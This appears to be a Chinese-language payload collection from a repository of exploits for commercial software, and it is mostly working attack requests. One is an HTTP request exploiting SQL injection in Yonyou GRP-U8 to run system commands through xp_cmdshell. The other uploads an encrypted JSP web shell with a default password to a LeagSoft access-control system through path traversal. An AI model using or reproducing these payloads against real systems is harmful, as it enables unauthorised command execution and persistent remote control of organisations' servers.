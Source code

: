 # 商业软件

## 用友GRP

**用友 GRP-U8 SQL 注入**
- POC | Payload | exp
    - [用友GRP-U8 SQL注入](https://www.hedysx.com/2599.html)
        ```
        POST /Proxy HTTP/1.1
        Accept: Accept: */*
        Content-Type: application/x-www-form-urlencoded
        User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
        Host: host
        Content-Length: 357
        Connection: Keep-Alive
        Cache-Control: no-cache

        cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'ipconfig'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
        ```

---

## 联软准入系统

**联软准入系统任意文件上传**
- POC | Payload | exp
    - [联软准入系统任意文件上传](https://www.hedysx.com/2627.html)
        ```
        POST /uai/download/uploadfileToPath.htm HTTP/1.1
        HOST: xxxxx

        -----------------------------570xxxxxxxxx6025274xxxxxxxx1
        Content-Disposition: form-data; name="input_localfile"; filename="xxx.jsp"
        Content-Type: image/png

        <%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>

        -----------------------------570xxxxxxxxx6025274xxxxxxxx1
        Content-Disposition: form-data; name="uploadpath"

        ../webapps/notifymsg/devreport/
        -----------------------------570xxxxxxxxx6025274xxxxxxxx1--
        ```
